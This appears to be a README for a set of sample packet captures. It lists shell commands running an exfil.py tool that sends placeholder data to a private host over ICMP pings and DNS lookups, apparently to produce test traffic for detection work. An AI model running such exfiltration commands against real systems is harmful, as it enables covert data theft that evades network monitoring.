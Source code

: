 Exfil PCAPs
===========

ping_data
---------
The pcap file ping_data.pcap contains the packets associated with the following five runs of exfil.py

```
$ sudo python ./exfil.py -d AAAABBBBCCCCDDDDEEEE -s 10.230.229.91 ping_data
Sending data to 10.230.229.91 via ICMP.
Data Sent:
AAAABBBBCCCCDDDDEEEE
$ sudo python ./exfil.py -d FFFFGGGGHHHHIIIIJJJJ -s 10.230.229.91 ping_data
Sending data to 10.230.229.91 via ICMP.
Data Sent:
FFFFGGGGHHHHIIIIJJJJ
$ sudo python ./exfil.py -d KKKKLLLLMMMMNNNNOOOO -s 10.230.229.91 ping_data
Sending data to 10.230.229.91 via ICMP.
Data Sent:
KKKKLLLLMMMMNNNNOOOO
$ sudo python ./exfil.py -d PPPPQQQQRRRRSSSSTTTT -s 10.230.229.91 ping_data
Sending data to 10.230.229.91 via ICMP.
Data Sent:
PPPPQQQQRRRRSSSSTTTT
$ sudo python ./exfil.py -d UUUUVVVVWWWWXXXXYYYY -s 10.230.229.91 ping_data
Sending data to 10.230.229.91 via ICMP.
Data Sent:
UUUUVVVVWWWWXXXXYYYY
```

dns_lookup
----------
The pcap file dns_lookup.pcap contains the packets associated with the following five runs of exfil.py

```
$ sudo python ./exfil.py -d AAAABBBBCCCCDDDDEEEE -s 10.230.229.91 dns_lookup
Sending data via DNS to 10.230.229.91 on port 53.
Data Sent:
AAAABBBBCCCCDDDDEEEE
$ sudo python ./exfil.py -d FFFFGGGGHHHHIIIIJJJJ -s 10.230.229.91 dns_lookup
Sending data via DNS to 10.230.229.91 on port 53.
Data Sent:
FFFFGGGGHHHHIIIIJJJJ
$ sudo python ./exfil.py -d KKKKLLLLMMMMNNNNOOOO -s 10.230.229.91 dns_lookup
Sending data via DNS to 10.230.229.91 on port 53.
Data Sent:
KKKKLLLLMMMMNNNNOOOO
$ sudo python ./exfil.py -d PPPPQQQQRRRRSSSSTTTT -s 10.230.229.91 dns_lookup
Sending data via DNS to 10.230.229.91 on port 53.
Data Sent:
PPPPQQQQRRRRSSSSTTTT
$ sudo python ./exfil.py -d UUUUVVVVWWWWXXXXYYYY -s 10.230.229.91 dns_lookup
Sending data via DNS to 10.230.229.91 on port 53.
Data Sent:
UUUUVVVVWWWWXXXXYYYY
```